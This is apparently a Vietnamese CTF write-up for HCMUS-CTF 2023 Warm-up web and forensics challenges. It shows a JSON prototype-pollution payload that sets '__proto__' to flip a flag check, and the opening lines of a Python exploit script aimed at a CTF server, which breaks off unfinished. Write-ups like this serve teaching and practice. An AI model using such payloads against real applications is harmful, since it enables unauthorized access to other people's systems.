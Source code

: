 ```yaml
---
title: HCMUS-CTF 2023 Warm-up
date: 2023-02-22 11:06 +0700
tags: [ctf, web, forensics, misc]
categories: [CTF Writeups]
author: Dat2Phit
---
```


Đây là một số writeups cho các challenges mà mình ra ở HCMUS-CTF 2023 Warm-up.


| Category | Challenge Name | Difficulty |
| -------- | -------------- | ---------- |
| Web      | Polluted Web   | Easy       |
| Web      | Have I Been Pwned   | Medium       |
| Web      | Cute Page 2   | Hard       |
| Forensics      | Know Your Sound   | Easy       |
| Forensics      | Craknarok   | Medium       |
| Forensics      | Black Market   | Hard       |
| Misc      | The Game Of Life   | Easy       |
| Misc      | Come on and jam   | Easy       |
| Misc      | Trace me  | Easy       |

## Polluted Web

### Exploit
Dùng burpsuite, bắt lại POST request và chỉnh lại header: Content-Type: `application/json` và chỉnh lại body như sau:
```json
{
    "name": "Dat2Phit",
    "opinion": "gdsfsd",
    "__proto__": {
        "flag": true
    },
    "flag":false
}
```
## Have I Been Pwned
### Preview

### Exploit script
Sử dụng binary search để tối ưu script
```python
import requests
from Crypto.Util.number import bytes_to_long as b2l, long_to_bytes as l2b
from tqdm import tqdm
from time import perf_counter

session = requests.Session()
url = 'http://103.245.250.17:30007/'

length = 60
l = b2l(b'\x00' * length) # = 0
```